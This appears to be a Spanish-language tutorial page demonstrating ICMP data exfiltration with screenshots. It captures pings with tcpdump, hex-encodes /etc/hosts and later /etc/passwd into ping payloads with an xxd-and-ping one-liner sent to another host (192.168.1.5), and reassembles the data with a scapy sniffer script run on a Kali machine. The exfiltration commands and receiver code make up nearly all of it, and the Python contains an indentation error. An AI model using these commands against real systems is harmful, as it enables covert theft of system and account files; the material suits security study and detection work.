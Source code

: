 ### Ejemplo :

#### Terminal N° 1

Captura de paquetes que viajan en la interfaz loopback(lo)

```c
sudo tcpdump -i lo -w capture.cap -n -v
```

![20240713012915.png](20240713012915.png)
#### Terminal N° 2

Ping con envió de paquetes en hexadecimal 

```c
xxd -p -c 4 /etc/hosts| while read line; do ping -c 1 -p $line 127.0.0.1; done
```

![20240713012927.png](20240713012927.png)

### Tratamiento de la data

```c
from scapy.all import *
rdpcap("capture.cap")
packets=rdpcap("capture.cap")
```

![20240713012942.png](20240713012942.png)

```c
packets[1]
```

![20240713012949.png](20240713012949.png)

```c
>>> ls(packets[0][ICMP])
```

![20240713013039.png](20240713013039.png)

```c
>>> packets[0][ICMP].load
```

![20240713013045.png](20240713013045.png)

![20240713013050.png](20240713013050.png)

![20240713013053.png](20240713013053.png)


```python
#!/usr/bin/pytyhon3

from scapy.all import ICMP, sniff
import signal, time, sys


#Ctrl_c

def def_handler(sig, frame):
	print("[+] Saliendo ... ")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def data_parser(packet):
	if packet.haslayer(ICMP):
		if packet[ICMP].type == 8:
			data = packet[ICMP].load[-4:].decode("utf-8")
				print(data, flush=True, end='')

if __name__=='__main__':
	sniff(iface="tun0", prn=data_parser)
```

![20240713013114.png](20240713013114.png)

```c
sudo python3 icmp_exfiltration
```

![20240713013125.png](20240713013125.png)

### Ejemplo 
#### Codigo para la ejecucion a nivel de red local

```python
#!/usr/bin/pytyhon3

from scapy.all import ICMP, sniff
import signal, time, sys


#Ctrl_c

def def_handler(sig, frame):
	print("[+] Saliendo ... ")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def data_parser(packet):
	if packet.haslayer(ICMP):
		if packet[ICMP].type == 8:
			data = packet[ICMP].load[-4:].decode("utf-8")
				print(data, flush=True, end='')

if __name__=='__main__':
	sniff(iface="eth0", prn=data_parser)

```
#### Maquina Ubuntu

```c
xxd -p -c 4 /etc/passwd| while read line; do ping -c 1 -p $line 192.168.1.5; done
```

![20240713013142.png](20240713013142.png)


```c
cat /etc/passwd 
```

![20240713013203.png](20240713013203.png)

#### Maquina Kali

```c
sudo python3 icmp_exfiltration.py
```

![20240713013211.png](20240713013211.png)

![20240713013217.png](20240713013217.png)